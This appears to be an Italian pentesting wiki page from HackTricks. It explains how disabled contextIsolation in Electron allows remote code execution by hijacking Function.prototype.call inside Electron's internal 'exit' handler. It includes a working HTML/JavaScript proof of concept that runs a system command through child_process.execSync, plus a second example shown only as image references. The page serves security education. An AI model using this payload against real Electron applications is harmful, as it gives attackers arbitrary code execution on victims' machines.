 # Electron contextIsolation RCE tramite codice interno di Electron

{{#include ../../../banners/hacktricks-training.md}}

## Esempio 1

Esempio da [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41)

L'ascoltatore dell'evento "exit" è sempre impostato dal codice interno quando inizia il caricamento della pagina. Questo evento viene emesso poco prima della navigazione:
```javascript
process.on("exit", function () {
for (let p in cachedArchives) {
if (!hasProp.call(cachedArchives, p)) continue
cachedArchives[p].destroy()
}
})
```
{% embed url="https://github.com/electron/electron/blob/664c184fcb98bb5b4b6b569553e7f7339d3ba4c5/lib/common/asar.js#L30-L36" %}

![](<../../../images/image (1070).png>)

https://github.com/nodejs/node/blob/8a44289089a08b7b19fa3c4651b5f1f5d1edd71b/bin/events.js#L156-L231 -- Non esiste più

Poi si va qui:

![](<../../../images/image (793).png>)

Dove "self" è l'oggetto processo di Node:

![](<../../../images/image (700).png>)

L'oggetto processo ha un riferimento alla funzione "require":
```
process.mainModule.require
```
Poiché handler.call riceverà l'oggetto process, possiamo sovrascriverlo per eseguire codice arbitrario:
```html
<script>
Function.prototype.call = function (process) {
process.mainModule.require("child_process").execSync("calc")
}
location.reload() //Trigger the "exit" event
</script>
```
## Esempio 2

Ottieni **l'oggetto require dalla contaminazione del prototipo**. Da [https://www.youtube.com/watch?v=Tzo8ucHA5xw\&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq\&index=81](https://www.youtube.com/watch?v=Tzo8ucHA5xw&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq&index=81)

Leak:

<figure><img src="../../../images/image (279).png" alt=""><figcaption></figcaption></figure>

Exploit:

<figure><img src="../../../images/image (89).png" alt=""><figcaption></figcaption></figure>

{{#include ../../../banners/hacktricks-training.md}}
